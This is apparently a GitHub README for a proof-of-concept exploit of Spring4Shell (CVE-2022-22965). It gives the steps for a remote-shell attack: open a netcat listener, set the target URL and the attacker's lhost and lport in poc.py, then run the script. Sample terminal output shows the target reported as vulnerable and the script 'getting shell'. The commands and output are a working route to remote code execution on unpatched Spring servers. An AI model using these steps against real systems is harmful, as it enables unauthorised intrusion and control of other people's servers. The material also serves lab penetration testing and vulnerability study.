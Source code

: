 # Spring4Shell-POC (CVE-2022-22965)

1. Ensure you have a nc listener open

```
nc -lvp 1234
```

2. In poc.py change the parameters

```
url = "http://10.10.11.204:8080"
lhost = "10.10.16.24"
lport = "1234"
```

3. And then execute poc.py

```
┌──(kali㉿kali)-[~/codeplay/spring4shell]
└─$ python3 poc.py       
http://10.10.11.204:8080 vulnerable
getting shell...
                     
```

you will see that youll get shell on nc.

